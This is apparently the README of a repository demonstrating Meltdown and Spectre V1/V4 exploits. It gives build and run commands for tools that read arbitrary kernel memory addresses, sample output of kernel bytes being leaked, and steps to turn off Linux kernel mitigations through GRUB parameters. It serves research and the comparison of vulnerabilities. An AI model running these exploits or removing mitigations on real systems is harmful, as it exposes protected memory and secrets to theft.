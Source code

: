 # Meltdown / Spectre
This repository contains code that demonstrates how Meltdown and Spectre vulnerabilities work and shows the differences between them. It also contains measurement functions for comparing results.
## Meltdown [(CVE-2017-5754)](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
The Meltdown implementation contains three types of malicious payload that were introduced in the original Meltdown [repository](https://github.com/IAIK/meltdown).
- meltdown
- meltdown_nonull
- meltdown_fast
#### Build
```bash
make
```
or
```bash
make meltdown
```
#### Run
```bash
./meltdown [address] [length]
```
```bash
./meltdown_nonull [address] [length]
```
```bash
./meltdown_fast [address] [length]
```
Run examples without arguments to read data from local process memory.
## Spectre Variant 1 [(CVE-2017-5753)](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
Spectre implementation from the original Spectre [paper](https://spectreattack.com/spectre.pdf).
#### Build
```bash
make
```
or
```bash
make spectre_v1
```
#### Run
```bash
./spectre_v1 [address] [length]
```
Run example without arguments to read data from local process memory.
## Spectre Variant 4 [(CVE-2018-3639)](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
Implementation of the Speculative Store Bypass, aka Spectre V4. This vulnerability works worse than Meltdown or Spectre V1 and doesn't work under VW. Code contains two variants of the malicious payload. The first variant is written in C and its instructions are compiler-dependent. For example, GCC does unnecessary register manipulation. The second variant is written in assembly language and remains unmodified after compilation.
- spectre_v4
- spectre_v4_asm
#### Build
```bash
make
```
or
```bash
make spectre_v4
```
#### Run
```bash
./spectre_v4 [address] [length]
```
```bash
./spectre_v4_asm [address] [length]
```
Run examples without arguments to read data from local process memory.
## Testing
The Meltdown repository contains [tools](https://github.com/IAIK/meltdown/blob/master/README.md#demo-4-read-physical-memory-physical_reader) that can be used to test these vulnerabilities on Linux systems. Use `secret` tool to put the secret string into memory. Use `direct_physical_map.sh` script to extract the physical memory offset from the kernel.
### Results
The results table contains information for all bytes read, including: virtual address, status, 1st and 2nd best guesses with their scores, number of attempts, number of zero checks.
```
./meltdown 0xffff97480b415188 50
CVE-2017-5754: Meltdown (null)
Flush+Reload: 323 cycles, Reload only: 36 cycles
Flush+Reload threshold: 131 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     3    -       -   945     5
0xffff97480b415189   Success 0x6F o     3    -       -     3     -
0xffff97480b41518a   Success 0x6E n     3    -       -   215     -
0xffff97480b41518b   Success 0x67 g     3    -       -     3     -
0xffff97480b41518c   Success 0x72 r     3    -       -     3     -
0xffff97480b41518d   Success 0x61 a     3    -       -     4     -
...
```
```
./meltdown_fast 0xffff97480b415188 50
CVE-2017-5754: Meltdown (fast)
Flush+Reload: 397 cycles, Reload only: 38 cycles
Flush+Reload threshold: 157 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     5 0x58 X     1   776   757
0xffff97480b415189      Zero 0x6F o     5 0xD0       1   901   797
0xffff97480b41518a      Zero 0x6E n     5 0x43 C     1   507   395
0xffff97480b41518b   Success 0x67 g     3    -       -   147     -
0xffff97480b41518c      Zero 0x72 r     3 0x5D ]     1  1000   862
0xffff97480b41518d      Zero 0x61 a     3    -       -   546   115
...
```
```
./spectre_v4 0xffff97480b415188 50
CVE-2018-3639: Spectre Variant 4 (compiler-dependent)
Flush+Reload: 379 cycles, Reload only: 40 cycles
Flush+Reload threshold: 153 cycles
Reading 50 bytes in 4000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188   Unclear 0xFF       1 0xF5       1  4000     -
0xffff97480b415189   Unclear 0xB7       1 0x16       1  4000     -
0xffff97480b41518a   Unclear 0x8E       1 0x79 y     1  4000     -
0xffff97480b41518b Undefined    -       -    -       -  4000     -
0xffff97480b41518c   Unclear 0xEB       1 0x75 u     1  4000     -
0xffff97480b41518d   Unclear 0xD4       1 0xCA       1  4000     -
...
```
Byte status can be one of:
- `Success` - byte was detected successfully `(score_1 >= score_2 * 2)`
- `Unclear` - the result is unclear, check also the second guess
- `Zero` - the result is defined, but a zero byte with best score was detected (see ZEROS column). Read more about this case in the original Meltdown [paper](https://meltdownattack.com/meltdown.pdf)
- `Undefined` - no results, byte undefined
## Implementation for windows
Spectre V1 and V4 examples can be compiled for Windows using the MinGW compiler. While Meltdown implementation uses POSIX signals that are not fully supported on Windows.
#### Build
```bash
make win
```
#### Run
```bash
./spectre_v1.exe [address] [length]
```
```bash
./spectre_v4.exe [address] [length]
```
```bash
./spectre_v4_asm.exe [address] [length]
```
Run examples without arguments to read data from local process memory.
## Additional Information
### Check Meldown and Spectre protection on Linux
Run commands:
```bash
$ cat /sys/devices/system/cpu/vulnerabilities/meltdown
Vulnerable    
$ cat /sys/devices/system/cpu/vulnerabilities/spectre_v1
Vulnerable: __user pointer sanitization and usercopy barriers only; no swapgs barriers
```
### Disable Meldown and Spectre protection on Linux
Add or change this line in the file `/etc/default/grub`
```
GRUB_CMDLINE_LINUX="nospectre_v1 nopti"
```
Then run command:
```bash
sudo update-grub
```
## References
* [Spectre Paper](https://spectreattack.com/spectre.pdf)
* [Meltdown Paper](https://meltdownattack.com/meltdown.pdf)
* [Meltdown Source Code](https://github.com/IAIK/meltdown)
* [CVE-2017-5715: Spectre V2 - Branch Target Injection](https://nvd.nist.gov/vuln/detail/CVE-2017-5715)
* [CVE-2017-5753: Spectre V1](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
* [CVE-2017-5754: Meltdown](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
* [CVE-2018-3639: Spectre V4 - Speculative Store Bypass](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
